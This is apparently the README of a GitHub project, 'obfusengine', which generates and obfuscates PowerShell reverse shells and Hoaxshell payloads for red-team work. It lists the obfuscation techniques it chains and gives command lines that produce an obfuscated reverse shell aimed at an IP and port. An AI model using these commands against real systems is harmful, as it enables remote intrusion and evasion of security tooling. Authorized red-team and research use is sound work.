

<p align="center">
  
</p>


[](https://opensource.org/licenses/BSD-2-Clause)

> **obfusengine** is a modular script obfuscation and payload generation engine for red team operators, security researchers, and offensive tool developers.  
> It supports multi-layered PowerShell obfuscation techniques, reverse shell generation, and clipboard-based payload obfuscation with a clean TUI powered by `rich`.

---

## 🔥 Features

- ✅ Modular Obfuscation Pipeline (supports chaining techniques)
- 📋 Clipboard Input Mode (ideal for Hoaxshell-style payloads)
- 🛠️ Techniques:
  - Invoke-PSObfuscation
  - BetterXencrypt
  - Chameleon
  - PyFuscation
- 🧠 Interactive Mode with banners, tables, and validation
- 🔁 Reverse Shell Generation from IP/Port
- 🔐 Base64 Encoding Option
- 📊 Side-by-Side Comparison Viewer
- 📎 Auto-Copy to Clipboard

---

## 🧪 Obfuscation Techniques

| ID            | Technique         | Type         | Description                                                                 |
|---------------|------------------|--------------|-----------------------------------------------------------------------------|
| `invoke`      | Invoke-PSObfuscation     | PowerShell   | Obfuscates cmdlets, variables, comments using advanced evasion methods     |
| `xencrypt`    | BetterXencrypt    | PowerShell   | Multi-layered encryption and transformation of scripts                     |
| `chameleon`   | Chameleon         | PowerShell   | Random backtick and layout-based obfuscation                               |
| `pyfuscation` | PyFuscation       | PowerShell   | Python-based obfuscation layer                                              |
| `all`         | All Techniques    | Combined     | Sequentially applies all available techniques                              |

---

## 🚀 Quick Start

### ✅ Prerequisites

- Python 3.9+
- PowerShell Core (`pwsh`)
- Git & pip

### Run this command :
```bash
chmod +x setup.sh
```
```bash
sudo ./setup.sh
```

---

### 🖥️ Usage

```bash
use either: obfusegine <or> obfus
```
#### 🔁 Interactive Mode

```bash
obfusengine 
```

#### ⚙️ Command-Line Mode

```bash
obfusengine -I script.ps1 -t invoke,xencrypt -oN out.ps1 -e -v
```

#### 📋 Obfuscate Raw HoaxShell Payload 
```bash
hoaxshell -s <ip> -r
```
```bash
obfusengine --hxshell -t all -e
```

#### 🦠 Reverse Shell Generator + Obfuscator

```bash
obfusengine -i 192.168.1.100 -p 4444 -t all
```

---

## 🆘 Help Menu

```text
usage: obfusengine.PY [-h] [-I INPUT_SCRIPT] [-i IP] [-p PORT] [--hxshell] [-t TECHNIQUE] [--version]
                      [-d DIRECTORY] [-oN OUTPUT_NAME] [-e] [-v]

🔒 obfusengine v1.0.0 - Advanced Script Obfuscation Engine
Generates and obfuscates scripts for red team operations

Author: Vibhas Dutta
GitHub: https://github.com/vibhasdutta/obfusengine

options:
  -h, --help            show this help message and exit

Input Options:
  -I INPUT_SCRIPT, --input-script INPUT_SCRIPT
                        Path to existing script (PowerShell or Python)
  -i IP, --ip IP        Target IP address for generated reverse shell
  -p PORT, --port PORT  Target port number for reverse shell
  --hxshell             Use Hoaxshell Payload as input script

Obfuscation Options:
  -t TECHNIQUE, --technique TECHNIQUE
                        Comma-separated techniques: invoke,xencrypt,chameleon,pyfuscation,all
  --version             show program's version number and exit

Output Options:
  -d DIRECTORY, --directory DIRECTORY
                        Working directory
  -oN OUTPUT_NAME, --output-name OUTPUT_NAME
                        Output filename
  -e, --encode          Base64 encode the output
  -v, --view            Show script contents verbosely

Examples:
  obfusengine.PY                                         # Interactive mode (default)
  obfusengine.PY -i 192.168.1.10 -p 4444 -t all        # Generate & obfuscate reverse shell
  obfusengine.PY -I script.ps1 -t invoke,chameleon      # Obfuscate existing script
  obfusengine.PY --hxshell -t all -e                    # Use Hoaxshell Payload content with all techniques  
  obfusengine.PY -I payload.py -t pyfuscation -e -v     # Obfuscate with encoding and view

Note: Interactive mode launches automatically when sufficient arguments aren't provided.

Report bugs: https://github.com/vibhasdutta/obfusengine/issues
```

---

## ❤️ Credits & Inspirations

obfusengine builds on the hard work of these incredible projects:

| Project             | Author / Repo                                                              | Purpose                                           |
|---------------------|----------------------------------------------------------------------------|---------------------------------------------------|
| **Invoke-PSObfuscation** | [gh0x0st](https://github.com/gh0x0st/Invoke-PSObfuscation/tree/main) | Cmdlet/variable/class name obfuscation           |
| **BetterXencrypt**     | [GetRektBoy724](https://github.com/GetRektBoy724/BetterXencrypt) | Encryption/transformation                        |
| **Chameleon**          | [klezVirus](https://github.com/klezVirus/chameleon)           | Layout & special character obfuscation           |
| **PyFuscation**        | [CBHue](https://github.com/CBHue/PyFuscation)     | Python-based obfuscation                         |
| **Hoaxshell**          | [t3l3machus](https://github.com/t3l3machus/hoaxshell)                       | Payload delivery via clipboard (simulated input) |
| **Invoke-Stealth**          | [JoelGMSec](https://github.com/JoelGMSec/Invoke-Stealth)                       | Base code Structure  |
---

## 🛡️ Disclaimer

This tool is for **educational and authorized red teaming use only**.  
Do not use it for any illegal purposes.  
The author assumes no responsibility for any misuse.

---

## 📬 Contact

Made with ❤️ by [Vibhas Dutta](https://github.com/vibhasdutta)  
Feel free to open issues or PRs if you'd like to contribute!
